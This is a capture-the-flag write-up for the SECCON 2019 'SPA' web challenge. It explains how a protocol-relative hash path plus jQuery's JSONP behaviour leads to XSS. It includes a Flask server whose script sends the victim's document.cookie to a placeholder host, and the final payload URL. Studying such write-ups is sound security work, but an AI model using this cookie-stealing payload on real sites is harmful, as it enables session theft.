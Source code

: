 # SPA [427pts]

## Description

```
Last day my colleague taught me the concept of the Single-Page Application, which seems to be the good point to kickstart my web application development. Well, now it turned out to be MARVELOUS!

http://spa.chal.seccon.jp:18364/

Steal the cookie.
```

## Content

In this page, we can see single web page that works as website that has multiple web pages.
The trick is that this web page enrolls event handler that changes all content of webpage to onhashchange event.
This can be interesting, but it is not related to vulnerability.

![Main Page](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#](http://spa.chal.seccon.jp:18364/#)

Main page has 6 links for Flags, and one link for reporting admin.

![SECCON 2018](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_2018.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#SECCON2018](http://spa.chal.seccon.jp:18364/#SECCON2018)

Each Flag page contains flags of the SECCON CTF in the corresponding year.

![SECCON 2019](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_2019.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#SECCON2019](http://spa.chal.seccon.jp:18364/#SECCON2019)

Of course, we can not get the flag of this CTF :)

![Report](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_report.png)
Above: Content of [http://spa.chal.seccon.jp:18364/#report](http://spa.chal.seccon.jp:18364/#report)

At report page, there is a description that admin will read url we provide, and placeholder has `http://spa.chal.seccon.jp:18364/*****`
If we send url, website is redirected to `http://spa.chal.seccon.jp:18364/query`, with reponse of `Okay! I got it :-)`


If we read source code of this website, we can find out following part:
```
...

async fetchContest(contestId) {
	this.contest = await $.getJSON(`/${contestId}.json`)
},
async fetchContests() {
	this.contests = await $.getJSON('/contests.json')
},
async onHashChange() {
	const contestId = location.hash.slice(1);
	if (contestId) {
		if (contestId === 'report') {
			this.goReport();
		} else {
			await this.goContest(contestId);
		}
	} else {
		this.goHome();
	}
},

...
```
It seems this website load flag information from json file using jQuery getJSON function.
For example, [http://spa.chal.seccon.jp:18364/SECCON2019.json](http://spa.chal.seccon.jp:18364/SECCON2019.json) will give us
```
{
  "flags": [
    {
      "genre": "Web",
      "name": "SPA",
      "point": null,
      "flag": null
    }
  ],
  "name": "SECCON CTF 2019 Quals",
  "links": {
    "CTFtime": "https://ctftime.org/event/799"
  },
  "date": {
    "start": 1571464800000,
    "end": 1571551200000
  }
}
```
and [http://spa.chal.seccon.jp:18364/contests.json](http://spa.chal.seccon.jp:18364/contests.json) will give us
```
[
  {
    "name": "SECCON 2014",
    "count": 29,
    "id": "SECCON2014"
  },
  {
    "name": "SECCON 2015",
    "count": 29,
    "id": "SECCON2015"
  },
  {
    "name": "SECCON 2016",
    "count": 27,
    "id": "SECCON2016"
  },
  {
    "name": "SECCON 2017",
    "count": 28,
    "id": "SECCON2017"
  },
  {
    "name": "SECCON 2018",
    "count": 25,
    "id": "SECCON2018"
  },
  {
    "name": "SECCON 2019",
    "count": 1,
    "id": "SECCON2019"
  }
]
```

## Solution

### host bypass

If url starts with one leading slash, following string will be interpreted as path, and scheme and host will be one of current webpage.
But, if url starts with two leading slash, following string will be interpreted as host + path, and only scheme will be one of current webpage.
In this way, If we place additional slash on the beginning of hash, we can inject malicious json to the webpage.
For example,`http://spa.chal.seccon.jp:18364/#/evil.com/payload`

### JSONP for XSS

At [jQuery API Documentation](https://api.jquery.com/jQuery.getJSON/), we can find out following:
```
JSONP

If the URL includes the string "callback=?" (or similar, as defined by the server-side API), the request is treated as JSONP instead. See the discussion of the jsonp data type in $.ajax() for more details.
```
With this, we can make admin make JSONP request to our server, so that we inject XSS script to admin web page.

I wrote a simple JSONP response server for XSS using flask.
```
#!/usr/bin/env python3
from flask import Flask, request, Response

app = Flask(__name__)
app.secret_key = "sumango3"

@app.route('/')
def main():
	data = 'location.href="http://1.2.3.4:1234?ck="+document.cookie;'
	mimetype = 'application/javascript'
	resp = Response(data, mimetype=mimetype)
	resp.headers['Access-Control-Allow-Origin'] = '*'
	return resp

if __name__ == '__main__':
	app.run(host='0.0.0.0',port=5001,debug=True)
```
and, our payload will be `http://spa.chal.seccon.jp:18364/#/1.2.3.4:1234/?callback=?&`

![My server](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/SPA_server.png)
Above: successful XSS

## Flag

	SECCON{Did_you_find_your_favorite_flag?_Me?_OK_take_me_now_:)}
